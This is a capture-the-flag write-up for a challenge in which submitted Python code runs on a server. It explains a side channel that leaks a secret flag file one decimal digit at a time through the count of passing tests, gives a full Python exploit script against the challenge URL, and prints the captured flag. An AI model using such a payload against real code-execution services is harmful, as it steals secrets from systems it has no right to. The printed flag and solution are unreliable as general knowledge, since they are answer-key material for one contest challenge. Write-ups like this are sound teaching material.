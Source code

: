 # flagbot

## Challenge

a webapp with a text editor where we can write python code

the code is executed by the remote server, which checks the function `f(a,b)`

if the function returns the sum of `a+b`, the test is successful

the remote server tests 10 cases and returns the number of successful tests, or reports an error in code

the flag is accessible by the python code, no external connections are allowed

## Solution

the server leaks a number between 0-11 on each run

we can convert the flag to a base10 or base11 value and leak individual digits

base11 is more efficient, but base10 is more common and easier to work with

in the case of base11, an EOF signal can be sent using the error reporting

in the case of base10, an EOF signal can be sent using the value 10, while 0-9 are reserved for digits

to use base10, we convert the flag to a hexadecimal string, then convert the value to a decimal number

we send the desired digit by passing a specific number of tests

once the stop signal is received, we can convert back to hexadecimal and then to ascii

## Exploit

```py
#!/usr/bin/python3

from requests import post
from binascii import unhexlify

url = 'https://yeetcode.be.ax/yeetyeet'

payload = """
from binascii import hexlify

f = open("flag.txt", "r")
flag = f.read()

d = int(hexlify(flag.encode()), 16) // (10 ** e)

if d == 0:
    d = 10
else:
    d %= 10

c = 0

def f(a,b):
    global c
    if(c < d):
        c+=1
        return a+b
    else:
        return 0
"""

e = 0
dec = 0

while True:
    x = post(url, data = "e={}\n".format(e) + payload)
    res = x.json()['p']
    if res != 10:
        dec += res * (10 ** e)
        e += 1
        if e % 10 == 0:
            print("Progress: {}".format(e))
    else:
        break

print(unhexlify(hex(dec)[2:]).decode())
```

## Flag

`corctf{1m4g1n3_cp_g0lf_6a318dfe}`

